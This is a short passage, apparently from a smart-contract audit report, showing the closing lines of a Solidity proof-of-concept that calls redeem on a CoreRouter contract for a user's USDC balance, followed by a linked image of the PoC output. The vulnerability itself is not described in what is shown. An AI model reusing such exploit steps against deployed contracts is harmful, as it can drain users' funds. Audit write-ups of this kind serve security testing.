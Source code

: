 ```solidity
        // 2. redeem the amount

        (bool success, bytes memory data) = address(CoreRouter).call(
            abi.encodeWithSignature("redeem(uint256 redeemTokens)", IERC20(USDC).balanceOf(User))
        );
        require(success, string(data));

    }
```

**PoC Output:**
![PoC](https://github.com/user-attachments/assets/8c02d364-3588-4764-8020-f72780ddcd81)
